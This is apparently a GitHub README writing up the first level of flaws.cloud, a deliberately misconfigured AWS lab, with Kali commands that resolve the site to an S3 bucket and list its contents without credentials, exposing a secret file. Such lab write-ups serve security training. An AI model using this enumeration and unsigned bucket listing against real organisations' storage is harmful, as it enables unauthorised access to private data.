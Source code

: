 # Shape_AI Project

## Misconfigured s3 Bucket exposure

- **Bucket Name**:- s3-website-us-west-2.amazonaws.com
- **Bucket Source**:- http://flaws.cloud


### Steps To reproduce:-

* Go to [flaws.cloud](http://flaws.cloud)
* Enumerate the host IP
```
┌──(root💀kali)-[/home/kali/aws]
└─# host flaws.cloud                                                                      
flaws.cloud has address 52.218.169.210
```
* Enumerate the bucket name
```
┌──(root💀kali)-[/home/kali/aws]
└─# host 52.218.169.210
210.169.218.52.in-addr.arpa domain name pointer s3-website-us-west-2.amazonaws.com.
```
* Check for Authorization Parameter
```
┌──(root💀kali)-[/home/kali/aws]
└─# aws s3 --region us-west-2 ls flaws.cloud --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```
* Read the Secret document.

### What Can I Do:-

* List all files.
* Download any file to my local machine.

### POC:-

![Commands](https://raw.githubusercontent.com/sudo-Ayush/Vuln_cloud/main/Poc/poc1.PNG)
<br>

![Secret document](https://raw.githubusercontent.com/sudo-Ayush/Vuln_cloud/main/Poc/poc2.PNG)
